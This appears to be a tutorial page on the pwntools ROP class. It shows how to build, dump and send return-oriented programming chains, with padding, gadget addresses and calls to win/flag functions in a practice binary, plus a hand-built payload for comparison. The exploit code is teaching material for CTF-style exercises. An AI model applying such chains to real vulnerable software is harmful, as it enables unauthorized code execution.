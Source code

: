 # ROP

The `ROP` class is insanely powerful, enabling you to create readable ropchains in many less lines.

## Creating a ROP object

```python
rop = ROP(elf)
```

## Adding Padding

```python
rop.raw('A' * 64)
```

## Adding a Packed Value

```python
rop.raw(0x12345678)
```

## Calling the Function win\(\)

```python
rop.win()
```

And if you need parameters:

```python
rop.win(0xdeadc0de, 0xdeadbeef)
```

## Dumping the Logic

```python
from pwn import *

elf = context.binary = ELF('./showcase')
rop = ROP(elf)

rop.win1(0x12345678)
rop.win2(0xdeadbeef, 0xdeadc0de)
rop.flag(0xc0ded00d)

print(rop.dump())
```

`dump()` output:

```text
0x0000:         0x40118b pop rdi; ret
0x0008:       0x12345678 [arg0] rdi = 305419896
0x0010:         0x401102 win1
0x0018:         0x40118b pop rdi; ret
0x0020:       0xdeadbeef [arg0] rdi = 3735928559
0x0028:         0x401189 pop rsi; pop r15; ret
0x0030:       0xdeadc0de [arg1] rsi = 3735929054
0x0038:       'oaaapaaa' <pad r15>
0x0040:         0x40110c win2
0x0048:         0x40118b pop rdi; ret
0x0050:       0xc0ded00d [arg0] rdi = 3235827725
0x0058:         0x401119 flag
```

## Sending the Chain

```python
p.sendline(rop.chain())
```

## Showcase

Without pwntools:

```python
payload = flat(
    POP_RDI,
    0xdeadc0de,
    elf.sym['win1'],
    POP_RDI,
    0xdeadbeef,
    POP_RSI,
    0x98765432,
    elf.sym['win2'],
    POP_RDI,
    0x54545454,
    elf.sym['flag']
)

p.sendline(payload)
```

With pwntools:

```python
rop.win1(0xdeadc0de)
rop.win2(0xdeadbeef, 0x98765432)
rop.flag(0x54545454)

p.sendline(rop.chain())
```

